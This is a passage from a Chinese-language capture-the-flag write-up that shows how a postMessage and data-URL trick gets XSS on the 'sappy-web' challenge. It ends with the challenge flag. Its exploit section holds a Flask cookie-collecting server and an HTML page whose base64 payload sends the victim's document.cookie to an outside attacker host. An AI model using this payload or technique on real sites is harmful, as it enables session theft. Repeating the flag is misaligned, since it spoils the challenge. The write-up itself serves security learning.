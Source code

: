 最後的 `#` 則是讓後面的 `/sap/<page id>` 變成 hash tag 來忽略掉。

這樣就能成功 xss 了。

但是還有一個問題是因為 `iframe` 內的網站是不會帶 cookie 的，所以要找別的方法載入網站並控制，而這邊選擇用 `window.open` 來解決。

## exploit

```python
#!/usr/bin/env python3

from flask import Flask,request,redirect,Response,render_template
import json

app = Flask(__name__)

@app.route('/',methods=['GET'])
def root():
    return render_template('index.html')

@app.route('/<path:data>',methods=['GET'])
def hack(data=''):
    return "hack"

if __name__ == "__main__":
    app.run(host="::", port=20000)
```

```html
<script>
    const url = 'https://sappy-web.2024.ctfcompetition.com'
    win = window.open(`${url}/sap.html`);
    function hack() {
        win.postMessage(JSON.stringify({
                method: "initialize",
                host: "data://sappy-web.2024.ctfcompetition.com/;base64,eyJodG1sIjoiPHN2Zz48c3ZnL29ubG9hZD0nd2luZG93LmxvY2F0aW9uPVwiaHR0cHM6Ly92cG4uY2h1bW15ZG5zLmNvbToyMDAwMC94c3NcIitkb2N1bWVudC5jb29raWUnPiJ9Cg==#",
        }), url);
        win.postMessage(JSON.stringify({
            method: "render",
            page: "xss",
        }), url);
        loadpage();
    }
    setTimeout(hack, "1000");
</script>
```

## Flag

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/4fd1f3cf-3790-4762-99d9-39a45298192a)

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/f87e4ed7-8eab-4618-8e48-df0fa4731c66)

`CTF{parsing_urls_is_always_super_tricky}`





